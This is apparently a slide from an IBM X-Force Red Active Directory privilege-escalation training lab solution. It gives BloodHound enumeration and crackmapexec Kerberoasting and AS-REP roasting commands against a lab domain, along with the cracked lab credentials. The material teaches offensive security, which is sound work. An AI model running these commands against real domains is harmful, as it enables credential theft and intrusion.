

# AD Privilege Escalation > Lab 3 – Solution
  Run Bloodhound to see which hosts the backup user has access to
/opt/bloodhound.py/bloodhound.py -u backup -p backup1 -d fmradio.local –c All
Attempt to Kerberoast and ASREPRoast, do you get any user back?
crackmapexec ldap color-dc01.fmradio.local –u backup –p backup1 --kerberoast kerberoast.txt
crackmapexec ldap color-dc01.fmradio.local -u backup -p backup1 --asreproast asreproast.txt
We get the creds for the “svc-azure” user and “ansible”
svc-azure:azure2000
ansible:beansibley
IBM Security X-Force Red / © 2023 IBM Corporation
46